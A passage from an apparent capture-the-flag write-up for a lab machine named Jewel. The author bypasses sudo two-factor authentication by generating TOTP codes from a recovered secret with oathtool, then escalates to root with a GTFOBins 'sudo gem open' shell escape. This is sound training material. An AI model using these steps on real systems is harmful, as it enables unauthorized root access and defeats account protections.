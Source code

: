 ### 2FA

With bill’s password, I tried `sudo -l` again. The password was accepted, but it returned another prompt:

```

bill@jewel:~/blog/config$ sudo -l
[sudo] password for bill: 
Verification code:

```

This is likely the two factor request that the `.google_authenticator` was about.

On my local machine I installed [oathtool](https://www.nongnu.org/oath-toolkit/man-oathtool.html) with `apt install oathtool`. Now I can run it and it will show me the code at any given time. In fact, I can run it with `watch` and it will update every 2 seconds with the current token.

```

root@kali# oathtool -b --totp '2UQI3R52WFCLE6JTLDCSJYMJH4'
699658

```

Now I can see what bill can `sudo`:

```

bill@jewel:~$ sudo -l
[sudo] password for bill: 
Verification code: 
Matching Defaults entries for bill on jewel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    insults

User bill may run the following commands on jewel:
    (ALL : ALL) /usr/bin/gem

```

It is important to make sure that your local clock is in sync with the clock on Jewel, as this is a time based code.

### gem

Since bill can run `sudo gem`, now is a good time to check [gtfobins](https://gtfobins.github.io/gtfobins/gem/#sudo), which provides the following:

```

sudo gem open -e "/bin/sh -c /bin/sh" rdoc

```
